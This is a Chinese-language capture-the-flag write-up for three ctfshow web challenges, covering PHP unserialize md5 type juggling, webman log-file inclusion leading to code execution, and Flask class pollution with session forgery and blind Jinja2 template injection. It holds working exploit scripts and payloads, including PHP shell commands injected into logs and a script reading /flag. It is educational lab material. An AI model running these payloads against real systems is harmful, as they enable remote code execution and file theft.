---
title: "ctfshow单身杯2"
date: 2025-04-30T13:47:09+08:00
summary: "ctfshow单身杯2"
url: "/posts/ctfshow单身杯2/"
categories:
  - "ctfshow"
tags:
  - "DSBCTF"
draft: false
---

# 0x01前言

也是做上ctfshow双十一的单身杯了，但是比赛的时候发现难的抠脚，很多题压根做不出来，所以只能赛后复现了，wp也是融合了自己的想法和借鉴了官方wp，只能说是当做一次学习了

# 0x02赛题

# 签到·好玩的PHP

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    class ctfshow {
        private $d = '';
        private $s = '';
        private $b = '';
        private $ctf = '';
        public function __destruct() {
            $this->d = (string)$this->d;
            $this->s = (string)$this->s;
            $this->b = (string)$this->b;
            if (($this->d != $this->s) && ($this->d != $this->b) && ($this->s != $this->b)) {
                $dsb = $this->d.$this->s.$this->b;

                if ((strlen($dsb) <= 3) && (strlen($this->ctf) <= 3)) {
                    if (($dsb !== $this->ctf) && ($this->ctf !== $dsb)) {
                        if (md5($dsb) === md5($this->ctf)) {
                            echo file_get_contents("/flag.txt");
                        }
                    }
                }
            }
        }
    }
    unserialize($_GET["dsbctf"]);
```

审代码:

- 析构函数destruct()魔术方法会在对象调用结束或者对象销毁的时被调用，在魔术方法中，三个属性的值都被转换成字符串的类型
- 赋值判断:判断三个参数之间是否两两不相等，如果满足将三个参数拼接赋值给dsb参数
- 第一层判断:判断dsb和ctf两个参数的字符串长度是否都小于等于3
- 第二层判断:通过强比较判断两个参数的值和类型是否都不相等
- 第三层判断:通过强比较判断这两个参数的md5值是否强相等

当php中我们计算数字123的md5值的时候，会自动将数字123转化成字符串'123'，然后再进行哈希值比较，所以我们只要传入两个不同类型的字符数字，基本上哈希值都是一样的

```php
<?php
$d = '1';
$s = '2';
$b = '3';
$ctf = 123;
$dsb = $d.$s.$b;
if(md5($dsb) == md5($ctf)){
    echo 'yes';
}
//yes
```

所以我们的exp

```php
<?php
    class ctfshow {
        private $d = '1';
        private $s = '2';
        private $b = '3';
        private $ctf = 123;
    }

    $dsbctf = new ctfshow();

    echo urlencode(serialize($dsbctf));
```

将编码出来的字符串传入dsbctf然后就可以出flag了

讲一下官方的做法

### 特殊浮点数常量

特殊浮点数常量通常指的是在编程语言中定义的一些具有特定含义的浮点数值，这些值通常用于表示非标准的数值

1. **正无穷大（Positive Infinity）**

表示一个比所有有限浮点数都大的数。在许多编程语言中，这通常是通过某种特定的操作得出的，比如将一个正数除以零。它通常表示为 `Infinity` 或 `inf`。

2. **负无穷大（Negative Infinity）**

表示一个比所有有限浮点数都小的数，通常表示为 `-Infinity` 或 `-inf`。

3. **NaN（Not a Number）**

表示一个未定义或不可表示的数值，例如 0 除以 0，或者对负数取平方根。这种情况通常表示计算错误或无效操作。NaN 的比较行为也很特殊：任何与 NaN 进行比较的结果（包括与自身比较）都是 false。

4. **正零（+0）和负零（-0）**

在 IEEE 754 标准中，正零和负零是两个不同的值。它们在许多情况下表现相似，但在某些情况下（如某些数学运算），它们的行为可能不同。例如，在计算中，`1.0 / 0.0` 会返回正无穷大，而 `1.0 / -0.0` 会返回负无穷大。

基于上述的条件，可以用PHP中的特殊浮点数常量`NAN`和`INF`来构造payload，因为将这两个常量转成字符串类型之后的md5值与原先的浮点类型md5值相等，又由于类型不相等、长度均为3，所以可以满足最后三个if判断。由于在第一个判断条件中要求变量`$dsb`的三个字符互不相等，因此只能取`INF`来构造payload：

```PHP
<?php
    class ctfshow {
        private $d = 'I';
        private $s = 'N';
        private $b = 'F';
        private $ctf = INF;
    }

    $dsbctf = new ctfshow();

    echo urlencode(serialize($dsbctf));
```

```PHP
O%3A7%3A%22ctfshow%22%3A4%3A%7Bs%3A10%3A%22%00ctfshow%00d%22%3Bs%3A1%3A%22I%22%3Bs%3A10%3A%22%00ctfshow%00s%22%3Bs%3A1%3A%22N%22%3Bs%3A10%3A%22%00ctfshow%00b%22%3Bs%3A1%3A%22F%22%3Bs%3A12%3A%22%00ctfshow%00ctf%22%3Bd%3AINF%3B%7D
```

切入点:

#### **特殊浮点数常量转化为字符串前后的md5值相等**

# 迷雾重重

### #框架日志文件注入



这道题我并没做出来，但根据官方的wp写了一些自己的想法

首先打开题目，框架是用的workerman的webman框架

我们先放到seay里分析一下吧



根据官方wp，需要先查看控制器的代码

### IndexController.php

```PHP
<?php

namespace app\controller;

use support\Request;
use support\exception\BusinessException;

class IndexController
{
    public function index(Request $request)
    {
        
        return view('index/index');
    }

    public function testUnserialize(Request $request){
        if(null !== $request->get('data')){
            $data = $request->get('data');
            unserialize($data);
        }
        return "unserialize测试完毕";
    }

    public function testJson(Request $request){
        if(null !== $request->get('data')){
            $data = json_decode($request->get('data'),true);
            if(null!== $data && $data['name'] == 'guest'){
                return view('index/view', $data);
            }
        }
        return "json_decode测试完毕";
    }

    public function testSession(Request $request){
        $session = $request->session();
        $session->set('username',"guest");
        $data = $session->get('username');
        return "session测试完毕 username: ".$data;

    }

    public function testException(Request $request){
        if(null != $request->get('data')){
            $data = $request->get('data');
            throw new BusinessException("业务异常 ".$data,3000);
        }
        return "exception测试完毕";
    }


}
```

不会代码的话建议先代码审计一下，这也是学习的过程

这里的话设置了IndexController的四个方法：

- index 方法

就是正常的渲染视图

- testUnserialize方法

反序列化操作，对data的值进行反序列化

- testJson方法

JSON 数据解密操作，对传入data的JSON字符串解析为数组，如果data中的name字段的值为guest，则进行渲染

- testSession方法

session会话设置操作，获取当前session会话对象，并设置会话的username为guest，获取会话变量 `username` 的值并返回。

- **testException**方法

异常抛出操作，如果有data的传入则抛出异常，并传递异常信息和错误码 `3000`。

本来以为是打的反序列化的，但是搜索了一下`__destruct()方法`也没找到可以利用的地方，然后session的话不知道能不能打文件包含，那么就剩下一个了，也就是testJson

```php
public function testJson(Request $request){
    if(null !== $request->get('data')){
        $data = json_decode($request->get('data'),true);
        if(null!== $data && $data['name'] == 'guest'){
            return view('index/view', $data);
        }
    }
    return "json_decode测试完毕";
}
```

这里有个view，并且参数2是可控的，我们跟进一下

```php
//view
function view(string $template, array $vars = [], string $app = null, string $plugin = null): Response
{
    $request = \request();
    $plugin = $plugin === null ? ($request->plugin ?? '') : $plugin;
    $handler = \config($plugin ? "plugin.$plugin.view.handler" : 'view.handler');
    return new Response(200, [], $handler::render($template, $vars, $app, $plugin));
}
```

这里的话调用了$handler的render方法，我们跟进这个handler的内容

```php
//index/view
return [
    'handler' => Raw::class
];
```

handler指向Raw类，跟进这个文件



这里能进行变量覆盖，并且还有include函数，可以尝试打一下文件包含

```php
extract($vars);
include $__template_path__;
```

我们看看var变量



发现var变量就是我们可控的data参数，那就可以打变量覆盖了，只需要覆盖掉`$__template_path__`就能打**文件包含漏洞**

那我们看看怎么打文件包含呢？

- 正常的文件包含的话，只有file协议可以用，其他的都用不了

- nginx apache 不存在，排除日志包含的思路
- session文件包含的话，目录路径不可知，也打不了

因为有种种限制，最后就推向了一个方法，框架日志文件包含，默认的框架日志文件



默认的日志文件路径是/logs/webman.log

然后自己在本地测试一下就可以知道日志文件的格式runtime/logs/webman-{}-{}-{}.log





所以我们这道题的思路就是包含这个webman的日志文件，通过包含php代码会导致include失败这个特性，include失败后自然就会将报错信息写入日志文件，那么这个php代码也会被写入日志文件，但是此时我们需要先知道网站的根目录，知道根目录后我们才能去打文件包含

在基于 Linux 的操作系统中，`/proc` 目录下存储了关于系统和运行中进程的信息。每个运行中的进程都会在 `/proc/[pid]/cmdline` 文件中保存该进程的启动命令行信息，其中可能包含启动该进程时使用的脚本或可执行文件路径。如果目标 Web 应用的主进程是由一个 PHP 文件（比如 `start.php`）启动的，`cmdline` 文件中就可能包含该 PHP 文件的路径信息。

官方脚本

```python
import requests
import time
from datetime import datetime

# 注意 这里题目地址 应该https换成http
url="http://f5f954bb-e654-44b7-be30-619047e0bac7.challenge.ctf.show/"

# Author: ctfshow h1xa
def get_webroot():
    print("[+] Getting webroot...")

    webroot = ""

    for i in range(1, 300):
        r = requests.get(
            url=url + 'index/testJson?data={{"name": "guest", "__template_path__": "/proc/{}/cmdline"}}'.format(i))
        time.sleep(0.2)
        if "start.php" in r.text:
            print(f"[\033[31m*\033[0m] Found start.php at /proc/{i}/cmdline")
            webroot = r.text.split("start_file=")[1][:-10]
            # print(r.text)
            print(f"Found webroot: {webroot}")
            break
    return webroot


def send_shell(webroot):
    # payload = 'index/testJson?data={{"name":"guest","__template_path__":"<?php%20`ls%20/>{}/public/ls.txt`;?>"}}'.format(webroot)
    payload = 'index/testJson?data={{"name":"guest","__template_path__":"<?php%20`cat%20/s00*>{}/public/flag.txt`;?>"}}'.format(
    webroot)
    r = requests.get(url=url + payload)
    time.sleep(1)
    if r.status_code == 500:
        print("[\033[31m*\033[0m] Shell sent successfully")
    else:
        print("Failed to send shell")


def include_shell(webroot):
    now = datetime.now()
    payload = 'index/testJson?data={{"name":"guest","__template_path__":"{}/runtime/logs/webman-{}-{}-{}.log"}}'.format(
        webroot, now.strftime("%Y"), now.strftime("%m"), now.strftime("%d"))
    r = requests.get(url=url + payload)
    time.sleep(5)
    r = requests.get(url=url + 'flag.txt')
    if "ctfshow" in r.text:
        print("=================FLAG==================\n")
        print("\033[32m" + r.text + "\033[0m")
        print("=================FLAG==================\n")
        print("[\033[31m*\033[0m] Shell included successfully")
    else:
        print("Failed to include shell")


def exploit():
    webroot = get_webroot()
    send_shell(webroot)
    include_shell(webroot)


if __name__ == '__main__':
    exploit()


```

其实这道题的重点还是需要找出日志文件的路径位置

# ez_inject

### #预期

session伪造`&&`flask原型链污染`&&`flask的ssti盲注



扫目录的结果

```
[13:51:07] Scanning:
[13:51:26] 200 -    1KB - /chat
[13:51:30] 405 -   153B - /echo
[13:51:36] 200 -    1KB - /login
[13:51:36] 302 -   189B - /logout  ->  /
[13:51:42] 200 -    1KB - /register
[13:51:43] 403 -    1KB - /secret
```

访问/chat提示让我们去污染一下



这样子一看肯定就是注册页面有污染了，但是在哪里呢？、

访问/secret页面



翻了一圈除了一个cookie和源码中提示

```
user=eyJlY2hvX21lc3NhZ2UiOiIxIiwiaXNfYWRtaW4iOjAsInVzZXJuYW1lIjoid2FudGgzZjFhZyJ9.aBHQyQ.bR_4K3Q-iJhwEGK3AmaTUjubArc
```


这个cookie格式很像JWT，但是也可能是session，解密一下看看



不符合JWT的内容，那我们用flask-unsign解密一下

```
flask-unsign --decode --cookie 'eyJlY2hvX21lc3NhZ2UiOiIxIiwiaXNfYWRtaW4iOjAsInVzZXJuYW1lIjoid2FudGgzZjFhZyJ9.aBHQyQ.bR_4K3Q-iJhwEGK3AmaTUjubArc'
```



这里可以看到有is_admin为0，根据之前的secret界面，我们是需要把is_admin设置为1的，那就说明我们需要拿到secret_key

这里不知道是不是flask，但是flask框架的secret_key是可以被污染的，尝试写个预想的demo

```python
from flask import *
import os
app = Flask(__name__)
app.config['SECRET_KEY'] = 'test'

class test:
    def __init__(self):
        pass


def merge(src, dst):  #src为源字典，dst为目标字典
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):  #键值对字典形式
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))  #递归到字典最后一层
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:  #class形式
            merge(v, getattr(dst, k))  #递归到最终的父类
        else:
            setattr(dst, k, v)
test = test()
print(app.config['SECRET_KEY'])
payload = {
    "__init__":{
        "__globals__":{
            "app":{
                "config":{
                    "SECRET_KEY":"success"
                }
            }
        }
    }
}
merge(payload,test)
print(app.config['SECRET_KEY'])
```

污染成功，那我们试着写一下payload污染一下原有的key

```python
import requests
import json

url = "http://4954de32-8e1f-4094-ae60-ce68918259e7.challenge.ctf.show/register"

payload = {
    "username" : "vu1n4bly",
    "password" : "vu1n4bly",
    "__init__" : {
        "__globals__" : {
            "app" : {
                "config" : {
                    "SECRET_KEY":"vu1n4bly"
                }
            }
        }
    }
}
r = requests.post(url, json=payload)
print(r.text)
```



污染成功了，那我们可以进行session伪造了

```
flask-unsign --sign --cookie "{ 'is_admin': 1, 'username': 'vu1n4bly'}" --secret 'vu1n4bly'
```

登陆后伪造一下session，访问/secret



应该是ssti了，测试一下

传入config有回显，并且是不带括号的ssti



传入cycler返回

```
Your message: your answer is &lt;class &#39;jinja2.utils.Cycler&#39;&gt;
```

传入

```
cycler["__in"+"it__"]

cycler["__in"+"it__"]["__glo"+"bals__"]

cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"]

cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].__import__('builtins')

cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].open('/flag').read(1)[0]=='c'
```

第一个发现有回显，那我们慢慢试吧



```
cycler["__in"+"it__"]["__glo"+"bals__"]  ["__bui"+"ltins__"].__import__('builtins').open('/flag').read(1)[0] =='c'
```

传入的时候返回True，那就打盲注，直接写脚本

```python
import requests

url = "http://4954de32-8e1f-4094-ae60-ce68918259e7.challenge.ctf.show/echo"

dicts = "qwertyuiopasdfghjklzxcvbnm{}-12334567890"

headers = {
    "Content-Type" : "application/x-www-form-urlencoded",
    "Cookie" : "user=eyJlY2hvX21lc3NhZ2UiOiJ5b3VyIGFuc3dlciBpcyBUcnVlIiwiaXNfYWRtaW4iOjEsInVzZXJuYW1lIjoidnUxbjRibHkifQ.aBHXdA.mh5p2gCL57hAgruXZdKdSkeGQ3w"
}
flag = ""


for i in range(50):
    for dict in dicts :
        payload = '''
        cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].__import__('builtins').open('/flag').read({})[{}]=='{}'
        '''.format(i+1,i,dict)
        print(payload)
        data = {
            "message":payload,
        }
        r = requests.post(url, data=data,headers=headers)
        if 'Your message: your answer is True' in r.text:
            flag += dict
            print(flag)
            if dict == "}":
                exit()
            break
```

### #非预期

默认情况下，Flask 会将静态文件存储在名为 `static` 的目录中。所以如果没有显式设置 `_static_folder`，Flask 会默认使用项目根目录下的 `static` 文件夹作为静态文件目录。那如果我们设置`_static_folder`为根目录，那么那么 Flask 会将整个根目录（即服务器的文件系统根目录）作为静态文件目录。

非预期很简单，可以直接污染静态文件目录为根目录就可以拿到flag

```python
import requests
import json

url = "http://4954de32-8e1f-4094-ae60-ce68918259e7.challenge.ctf.show/register"

payload = {
    "username" : "vu1n4bly",
    "password" : "vu1n4bly",
    "__init__" : {
        "__globals__" : {
            "app" : {
                "_static_folder":"/"
            }
        }
    }
}
r = requests.post(url, json=payload)
print(r.text)
```

